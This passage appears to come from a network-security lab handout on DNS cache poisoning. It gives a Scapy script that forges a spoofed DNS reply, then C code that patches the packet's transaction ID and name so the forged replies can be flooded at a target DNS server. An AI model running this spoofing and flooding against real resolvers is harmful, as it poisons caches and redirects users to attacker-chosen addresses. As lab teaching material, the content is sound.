 \begin{lstlisting}[caption={\texttt{generate\_dns\_reply.py}}]
#!/usr/bin/env python3
from scapy.all import *

# Construct the DNS header and payload
name   = 'twysw.example.com'
Qdsec  = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.1.2.2', ttl=259200)
dns    = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
             qdcount=1, ancount=1, nscount=0, arcount=0, 
             qd=Qdsec, an=Anssec)

# Construct the IP, UDP headers, and the entire packet
ip  = IP(dst='10.0.2.7', src='1.2.3.4', chksum=0)
udp = UDP(dport=33333, sport=53, chksum=0)
pkt = ip/udp/dns

# Save the packet to a file
with open('ip.bin', 'wb') as f:
  f.write(bytes(pkt))
\end{lstlisting}

In a C program, we load the packet from the file \texttt{ip.bin}, and use
it as our packet template, based on which we create many similar packets,
and flood the target local DNS servers with these spoofed replies. For each
reply, we change three places: the transaction ID and the name
\texttt{twysw} occurred in two places (the question section and the answer
section).  The transaction ID is at a fixed place (offset  \texttt{28} from
the beginning of our IP packet), but the offset for the name \texttt{twysw}
depends on the length of the domain name. We can use a binary editor
program, such as \texttt{bless}, to view the binary file \texttt{ip.bin}
and find the two offsets of \texttt{twysw}. In our packet, they are at
offsets \texttt{41} and \texttt{64}.


The following code snippet shows how we make change to these fields. We change
the name in our reply to \texttt{bbbbb.example.com}, and then send out a
spoofed DNS replies, with transaction ID being \texttt{1000}.
In the code, the variable \texttt{ip} points to the beginning of the IP packet.  

\begin{lstlisting}
  // Modify the name in the question field (offset=41)
  memcpy(ip+41, "bbbbb" , 5);

  // Modify the name in the answer field (offset=64)
  memcpy(ip+64, "bbbbb" , 5);

  // Modify the transaction ID field (offset=28)
  unsigned short id = 1000;
  unsigned short id_net_order = htons(id);
  memcpy(ip+28, &id_net_order, 2);
\end{lstlisting}



